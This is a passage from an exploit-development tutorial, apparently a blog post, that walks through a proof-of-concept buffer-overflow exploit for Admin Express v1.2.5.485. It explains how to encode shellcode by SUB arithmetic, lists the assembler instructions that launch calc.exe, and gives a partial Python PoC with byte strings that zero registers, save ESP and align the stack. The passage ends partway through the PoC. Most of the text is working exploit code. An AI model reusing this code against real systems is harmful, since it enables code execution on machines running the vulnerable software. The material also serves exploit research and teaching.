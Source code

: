 ```console 
00
30
```

You would do this:

```console
00 = 85(55) + 85(55) + 86(56)
30 = 27(1B) + 1(01) + (01)
```

Notice how the last line only equals 29 instead of 30.

3. The last thing to take note of, is sometimes the calculations just get mangled. I don't really have a good explanation for this one. Sometimes the numbers will be off by a few bytes, sometimes `1`'s do not get carried down to the next line when you reach a multiple of 256, etc. Just keep messing with the values if this happens, and you will figure it out!

Before I update the PoC, here are the assembler instructions for the opcodes we are going to execute for `calc.exe`:

```console
xor ecx,ecx        
push ecx        
push 0x636c6163 ; 0x636c6163 is calc    
push dword ptr esp        
mov eax,0x77c293c7        
call eax  
```

Anyways, here is the updated PoC:

```console
# Proof of Concept - Admin Express v1.2.5.485 Exploit


# For zeroing out registers before manual shellcode
zero = "\x25\x01\x01\x01\x01"           # and eax, 0x01010101
zero += "\x25\x10\x10\x10\x10"          # and eax, 0x10101010

# We need to save the current stack pointer before execution of shellcode, due to
# old stack pointer value needed when executing our payload of calc.exe. This puts the current stack pointer 0x0012DC98 into ECX, to be used later
restore = "\x54"                        # push esp; (pushing the current value of ESP, which needs to be restored later, onto the stack)
restore += "\x59"                       # pop ecx; (holding the value of old ESP in ECX, to be called later.)
restore += "\x51"                       # push ecx; (to get the value on the stack for the mov esp command later)

# Stack alignment
# Need to make ESP 0x012F3F4. Using sub method to write that value onto the stack.
# After making ESP 0x012F3F4, it should be the same value as EAX- so we can write up the stack.
alignment = "\x54" # push esp
alignment += "\x58" # pop eax; (puts the value of ESP into EAX)

# Write these 3 sub values in normal format, since memory address, not instruction to be executed. You do not have to do
# it this way, but I do my calculations in normal format to remind me it is a memory address, when doing hex max. For my
# other operations, I used little endian. If you do all of the calculations in one way, you do not need to flip the sub
# math difference results. This is how I keep things straight
# 384D5555 364D5555 364E5555
alignment += "\x2d\x38\x4d\x55\x55" 	# sub eax, 0x384D5555
alignment += "\x2d\x36\x4d\x55\x55" 	# sub eax, 0x364D5555
alignment += "\x2d\x36\x4e\x55\x55"	# sub eax, 0x364E5555
alignment += "\x50" 		   	# push eax
```